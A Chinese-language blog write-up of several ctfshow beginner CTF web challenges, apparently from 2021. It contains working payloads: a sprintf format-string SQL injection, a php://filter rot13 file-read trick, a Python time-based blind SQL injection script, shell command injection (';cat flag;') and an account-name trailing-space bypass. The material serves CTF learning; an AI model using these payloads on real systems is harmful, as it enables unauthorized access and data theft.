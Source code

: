 ```yaml
---
title: ctfshow-萌新赛
author: Pp1ove
avatar: \img\custom\head.jpg
authorLink: 
authorAbout: Pp1ove
authorDesc: 一个好奇的人
categories: 萌新赛
date: 2021-02-07 22:07:29
tags: ctfshow
keywords:
description:
photos: \img\article\15.png
---
```




## 给她

打开：

![image-20210207221002301](ctfshow-萌新赛/image-20210207221002301.png)

.git源码泄露，直接用githack扫描题目地址+/.git发现确实如此。

```Php
<?php
$pass=sprintf("and pass='%s'",addslashes($_GET['pass']));
$sql=sprintf("select * from user where name='%s'$pass",addslashes($_GET['name']));
?>
```

本来想的是宽字节注入,但是不存在宽字节注入

然后这里有一个sprintf函数没有见过,就去百度了一下用法和相关漏洞

https://www.cnblogs.com/qingwuyou/p/10687463.html

然后sprintf()注入原理为：
 ![在这里插入图片描述](ctfshow-萌新赛/20200817231223484.png)

这里利用的原理是`%1$\`为空，所以我们构造`%1$'`单引号前的转义符会被置空。从而实现单引号逃逸

于是构造SQL语句为

```sql
?name=admin&pass=%1$' or 1=1--+
```

然后到了一个界面![image-20210207232331267](ctfshow-萌新赛/image-20210207232331267.png)

查看源代码

![image-20210207232341404](ctfshow-萌新赛/image-20210207232341404.png)

而且发现 cookie file=666c61672e747874 转成字符串发现是flag.txt

查看flag.txt文件

![image-20210207232429327](ctfshow-萌新赛/image-20210207232429327.png)

访问flag.txt对比一下，发现有相同的部分，推测这里应该有个文件读取或文件包含：

然后将cookie里的file给删除，发现确实有file_get_content()函数

![image-20210207234644162](ctfshow-萌新赛/image-20210207234644162.png)

直接构造/flag不行，用php://filter/convert.base64-encode/source=/flag提示base64不行。那么可以用rot13试试：

payload:
 `php://filter/read=string.toupper|string.rot13/resource=/flag`

![image-20210207234525489](ctfshow-萌新赛/image-20210207234525489.png)

然后解码，再转换为小写

然后还看到羽师傅们有其他解法

布尔盲注
 既然flag在/flag中，我们试试用load_file(/flag)，先将/flag转为16进制
 payload:`name=39&pass=1%1$c or if(ascii(substr((select load_file(0x2f666c6167)),1,1))=102,sleep(3),1)--+`
 这里给出盲注脚本

```python
import requests
url="https://1cde46a1-34ca-458b-82f4-f6e905716d31.chall.ctf.show/?name=39&pass=1%1$c or "
l=""
s="0123456789abcdefghijklmnopqrstuvwxyz-{}"
for i in range(1,50):
    print("*")
    for j in s:
        u=url+"if(ascii(substr((select load_file(0x2f666c6167)),"+str(i)+",1))="+str(ord(j))+",sleep(3),1)--+"
        #print(u)
        try:
                r =  requests.get(u,timeout=(2.5,2.5))
                #print(r.text)
        except:
                l+=j
                print(l)
                break
```

## 签到题

```php
<?php 
if(isset($_GET['url'])){
        system("curl https://".$_GET['url'].".ctf.show");
}else{
        show_source(__FILE__);
}
 ?>
```

命令执行

`;ls;`

`;cat flag;`

## 假赛生

```php
<?php
session_start();
include('config.php');
if(empty($_SESSION['name'])){
    show_source("index.php");
}else{             
    $name=$_SESSION['name'];
    $sql='select pass from user where name="'.$name.'"';
    echo $sql."<br />";
    system('4rfvbgt56yhn.sh');
    $query=mysqli_query($conn,$sql);
    $result=mysqli_fetch_assoc($query);
    if($name==='admin'){
        echo "admin!!!!!"."<br />";
        if(isset($_GET['c'])){
            preg_replace_callback("/\w\W*/",function(){die("not allowed!");},$_GET['c'],1);
            echo $flag;
        }else{
            echo "you not admin";
        }
    }
}
?>
```

然后提示有registerer.php和login.php,发现可以注册账户和登录

![image-20210208110915944](ctfshow-萌新赛/image-20210208110915944.png)

注册用户    admin空格

然后尝试使用admin登录,成功登录（这里绕了点小弯,我接着用admin空格登录，结果发现不行，以为这个方法行不通）

然后就是通过正则匹配

`c=!`成功通过

c=空也可以

